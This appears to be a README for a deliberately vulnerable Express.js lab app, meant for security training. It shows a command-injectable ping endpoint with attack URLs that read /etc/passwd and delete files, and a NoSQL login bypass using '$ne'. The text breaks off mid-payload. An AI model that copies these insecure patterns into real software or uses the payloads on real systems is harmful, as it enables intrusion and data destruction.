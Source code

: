 # Express.js Vulnerable Application

## Overview
A deliberately vulnerable Express.js application demonstrating common security vulnerabilities in Node.js web applications, including Express-specific issues and JavaScript security flaws.

## Quick Start

**Access URL**: http://localhost:3003

**API Documentation**: http://localhost:3003/api-docs

**Default Credentials**:
- Admin: `admin` / `admin123`
- User: `user` / `password`
- Test: `test@example.com` / `test123`

## Application Features

- RESTful API
- User authentication (JWT)
- File upload/download
- MongoDB integration
- Real-time chat (Socket.io)
- Template rendering (EJS)
- Session management
- Admin dashboard

## Vulnerabilities

### 1. Command Injection
```javascript
// Vulnerable endpoint
app.get('/ping', (req, res) => {
    const host = req.query.host;
    exec(`ping -c 4 ${host}`, (err, stdout) => {
        res.send(stdout);
    });
});

// Attack
http://localhost:3003/ping?host=google.com;cat /etc/passwd
http://localhost:3003/ping?host=;rm -rf /tmp/*
```

### 2. NoSQL Injection
```javascript
// Vulnerable MongoDB query
app.post('/login', async (req, res) => {
    const user = await User.findOne({
        username: req.body.username,
        password: req.body.password
    });
});

// Attack - Authentication bypass
POST /login
Content-Type: application/json
{
    "username": {"$ne": null},
    "password": {"$ne": null}
```